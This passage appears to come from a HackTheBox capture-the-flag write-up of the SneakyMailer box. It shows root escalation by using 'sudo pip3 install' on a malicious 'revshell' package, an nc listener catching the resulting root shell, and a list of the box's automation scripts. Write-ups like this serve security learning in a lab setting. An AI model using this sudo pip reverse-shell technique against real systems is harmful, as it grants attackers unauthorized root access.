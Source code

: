 This is the same privesc as [Canape](/2018/09/15/htb-canape.html#sudo-pip), and really, the same as the previous step, just way simpler. I’ll use Python’s webserver to host my `setup.py` file from the package, and use `wget` on SneakyMailer to save a copy in `/dev/shm`.

Then I just run with the `install` command passing the current directory:

```

low@sneakymailer:/dev/shm$ sudo pip3 install .
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Processing /dev/shm
Building wheels for collected packages: revshell
  Running setup.py bdist_wheel for revshell ... -

```

It hangs here, but at a `nc` listener there’s a root shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.197.
Ncat: Connection from 10.10.10.197:57612.
# id  
uid=0(root) gid=0(root) groups=0(root)

```

And I can grab `root.txt`:

```

# cat root.txt
19eb3f51************************

```

## Beyond Root

There’s a *ton* of automation in this box. I’m not going to go through it all, but I’d recommend that you do (it’s still available to free users for the first two weeks post retirement). There’s a folder with scripts that each user runs:

```

root@sneakymailer:/opt/scripts# find . -type f
./vmail/imap-user-login.py        <-- send POST to links
./vmail/restore-sent-mail-box.py  <-- keep only two messages in mailbox
./low/install-module.sh           <-- runs python $1 install
./low/install-modules.py          <-- checks for packages, downloads, calls install-module.sh, cleans up
./developer/clean-ftp.py          <-- removes webshells and other uploads

```

